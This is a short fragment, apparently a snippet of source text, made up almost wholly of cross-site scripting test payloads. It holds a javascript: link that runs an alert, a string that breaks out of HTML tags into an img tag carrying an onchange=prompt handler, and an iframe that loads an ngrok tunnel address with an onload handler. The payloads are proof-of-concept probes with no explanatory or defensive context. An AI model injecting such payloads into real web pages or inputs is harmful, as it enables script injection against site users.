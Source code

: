 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<!---></div></article></p><img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></img>
<iframe src=https://81d2-2405-201-5c2b-b043-cf5d-d07b-da69-b547.ngrok-free.app onONLOAD=promot('xss')></iframe>
